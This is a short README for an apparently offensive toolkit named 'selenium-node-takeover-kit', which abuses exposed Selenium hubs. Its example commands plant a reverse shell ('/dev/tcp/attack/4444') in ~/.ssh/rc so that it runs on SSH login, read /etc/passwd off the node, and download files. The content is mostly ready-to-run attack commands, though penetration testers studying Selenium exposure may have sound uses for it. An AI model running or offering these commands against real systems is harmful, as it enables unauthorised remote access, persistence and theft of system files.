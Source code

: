 # selenium-node-takeover-kit
A collection of selenium tests that might aid it takeover of a selenium node

## upload_file.py 
Example of adding a reverse shell on ssh login. 
```bash
python3 examples/upload_file.py -u http://selenium-hub:4444/wd/hub -r ~/.ssh/rc -d "bash -c 'sh -i >& /dev/tcp/attack/4444 0>&1' &"
```

## download_file.py
Example of  concatenating the passwd file
```bash
python3 examples/download_file.py -u http://selenium-hub:4444/wd/hub -r /etc/passwd
```

Example of downloading a small file
```bash
python3 examples/download_file.py -u http://selenium-hub:4444/wd/hub -r /bin/ls -l ./test_ls
```
